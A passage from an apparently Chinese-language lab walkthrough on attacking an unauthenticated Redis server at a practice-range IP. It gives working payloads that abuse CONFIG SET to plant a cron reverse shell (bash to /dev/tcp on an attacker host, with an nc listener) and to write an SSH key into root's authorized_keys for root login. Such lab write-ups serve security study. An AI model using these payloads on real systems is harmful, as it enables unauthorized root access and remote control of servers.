 ## 3.2 反弹 shell  
> [!tip]
> 需要注意：在 Ubuntu 和 Debian `/var/spool/cron/crontabls` 中的定时任务，文件权限需要在 600，才可以正常执行，而 centos 中文件权限是 600 和 644 都可以被执行。  
> 通过 Redis 保存数据快照的形式，所产生的文件权限是 644，导致 Ubuntu 和 Debian 中无法正常执行定时任务。  
> centos 目前已经停止维护，所以靶场的环境不考虑使用 centos。  
> 所以，这部分主要是了解用法和思路。

反弹 shell 命令生成器：[反弹shell命令在线生成器|🔰雨苁🔰](https://www.ddosi.org/shell/)  
已知靶场 IP 是：`172.18.0.2`，并且开放了 6379 和 80 端口。尝试使用 AnotherRedisDesktopManager 的控制台使用 cron 服务，来反弹 shell。  
```
cron 服务存放定时命令的路径通常为：`/var/spool/cron/crontabs`，所以可以尝试构造如下 payload：  
```
将 your-ip 和 your-port 替换为正在开启监听服务的 ip 和 port。可使用 nc 或 ncat（[Ncat - Netcat for the 21st Century](https://nmap.org/ncat/)）
```Redis
config set dir /var/spool/cron/crontabs
config set dbfilename root
set payload "\n\n* * * * * '/bin/bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1\n\n'"
bgsave # 或使用 save
```
攻击端执行，监听 9001 端口：
```shell
nc -lvvp 9001
```

### 3.2.1 不能反弹 shell 的原因  
如果使用 Ubuntu 或 Debian 的 crontab 是通过 /bin/sh 来执行其中的定时任务，而 /bin/sh 软连接指向了 dash。dash 执行上述反弹 shell 的命令可能会报错。
1. 可以尝试修改 /bin/sh 的软连接，使其指向到 bash
	```shell
	ln -s -f bash /bin/sh
	```
2. 不修改/bin/sh 的软连接，修改 payload：
	```shell
	* * * * *  bash -c "bash -i  >&/dev/tcp/<your-ip>/<your-port> 0>&1"
	```

## 3.3 写入公钥  
已知靶场 IP 是：`172.18.0.2`，并且开放了 6379 和 22 端口。  
在攻击端生成 ssh 密钥，生成的默认路径在用户 home 路径下的 .ssh 文件夹，payload 如下：  
```shell
# 生成ssh密钥：
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
# 也可使用 AnotherRedisDesktopManager 直接创建字符串的key，内容为id_rsa.pub的文件内容
cat key.txt | redis-cli -h 172.18.0.2 -x set crack

# 在 Redis 中执行：
config set dir /root/.ssh
config set dbfilename authorized_keys
bgsave
```
![ssh-payload](https://image.yiscook.top/blog-image/202404152308194.png)  
在 Redis 完成公钥的写入后，尝试使用 ssh 进行连接。  
```shell
ssh -i id_rsa root@172.18.0.2
```
![ssh连接成功](https://image.yiscook.top/blog-image/202404152315358.png)  
成功通过 ssh 连接到 Redis 服务器。  
